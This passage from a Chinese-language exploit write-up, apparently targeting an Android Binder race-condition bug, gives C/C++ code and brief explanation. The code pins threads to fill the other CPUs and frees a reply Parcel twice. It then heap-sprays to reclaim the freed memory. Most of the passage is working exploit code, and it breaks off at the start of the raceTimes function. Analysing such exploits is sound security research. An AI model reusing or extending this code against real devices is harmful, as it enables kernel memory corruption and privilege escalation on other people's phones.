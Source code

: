 ```
	pthread_create(&id3_cpu2, NULL, fillCpu, &cpu2);
	pthread_create(&id4_cpu2, NULL, fillCpu, &cpu2);
	pthread_create(&id5_cpu2, NULL, fillCpu, &cpu2);
	pthread_create(&id6_cpu2, NULL, fillCpu, &cpu2);
	pthread_create(&id7_cpu2, NULL, fillCpu, &cpu2);

	pthread_create(&id_cpu3, NULL, fillCpu, &cpu3);
	pthread_create(&id1_cpu3, NULL, fillCpu, &cpu3);
	pthread_create(&id2_cpu3, NULL, fillCpu, &cpu3);
	pthread_create(&id3_cpu3, NULL, fillCpu, &cpu3);
	pthread_create(&id4_cpu3, NULL, fillCpu, &cpu3);
	pthread_create(&id5_cpu3, NULL, fillCpu, &cpu3);
	pthread_create(&id6_cpu3, NULL, fillCpu, &cpu3);
	pthread_create(&id7_cpu3, NULL, fillCpu, &cpu3);
	sleep(10);
}
void* fillCpu(void *arg)
{
        int index = *(int *)arg;
	cpu_set_t mask;
    	CPU_ZERO(&mask);
    	CPU_SET(index, &mask);
	pid_t pid = gettid();
	syscall(__NR_sched_setaffinity, pid, sizeof(mask), &mask);
	//printf("[+] cpu:%d, tid:%d, freeze\n", index, pid);
	while (!fillFlag)
	{
		index++;
	}

        return arg;
}

```

它所作的事就是将其他 cpu 占满，让后面的主线程和子线程在一个 cpu 上运行，提高条件竞争的概率

接着

```
raceTimes();

```

这个函数是漏洞实现的关键，它所作了条件竞争，堆喷占位两件事

```
void bc_free_buffer(int replyParcelIndex)
{
	replyArray[replyParcelIndex].~Parcel();
	IPCThreadState::self()->flushCommands();
}
void raceWin(int replyParcelIndex)
{
	pthread_mutex_lock(&alloc_mutex);
	bc_free_buffer(replyParcelIndex);
	global_parcel_index = replyParcelIndex;
	pthread_cond_signal(&alloc_cond);
	pthread_mutex_unlock(&alloc_mutex);
	usleep(450);
	bc_free_buffer(replyParcelIndex);
	bc_free_buffer(replyParcelIndex - 1);
	heap_spray_times();
	restartWatch();
} 
void raceTimes()
```